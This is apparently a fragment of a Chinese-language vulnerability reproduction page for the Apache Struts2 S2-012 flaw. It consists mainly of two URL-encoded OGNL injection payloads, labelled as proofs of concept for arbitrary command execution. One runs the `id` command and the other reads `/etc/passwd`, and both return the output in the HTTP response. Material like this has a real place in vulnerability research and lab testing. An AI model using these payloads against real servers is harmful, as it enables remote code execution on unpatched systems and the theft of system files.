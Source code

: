 任意命令执行 PoC，执行 `id` 命令

```
%25%7B%23a%3D(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew java.io.InputStreamReader(%23b)%2C%23d%3Dnew java.io.BufferedReader(%23c)%2C%23e%3Dnew char%5B50000%5D%2C%23d.read(%23e)%2C%23f%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22)%2C%23f.getWriter().println(new java.lang.String(%23e))%2C%23f.getWriter().flush()%2C%23f.getWriter().close()%7D
```

![s2-012-2](images/s2-012-2.png)

任意命令执行 PoC，读取 `/etc/passwd` 文件

```
%25%7B%23a%3D(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew java.io.InputStreamReader(%23b)%2C%23d%3Dnew java.io.BufferedReader(%23c)%2C%23e%3Dnew char%5B50000%5D%2C%23d.read(%23e)%2C%23f%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22)%2C%23f.getWriter().println(new java.lang.String(%23e))%2C%23f.getWriter().flush()%2C%23f.getWriter().close()%7D
```
